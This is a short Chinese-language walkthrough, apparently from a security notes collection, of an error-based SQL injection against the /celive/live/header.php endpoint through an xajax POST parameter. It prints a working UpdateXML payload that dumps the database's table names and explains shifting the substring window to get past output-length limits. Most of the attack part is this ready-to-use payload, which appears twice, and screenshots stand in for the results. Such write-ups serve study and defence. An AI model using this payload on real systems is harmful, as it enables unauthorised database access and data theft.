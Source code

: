 ```
xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery> 
```

到这个url（漏洞讲解里有，这里有传参，存在注入）

```
/celive/live/header.php
```

![](img/1e2b26f491fe0381ca0a8ba58b54af2d.png)

 因为输出长度的限制，只爆出了一点表，之后我修改1，32，为32到64，继续运行。

> xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database()),**1,32**),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

![](img/f6377571a2c5296f59e492fa20dd30b0.png)
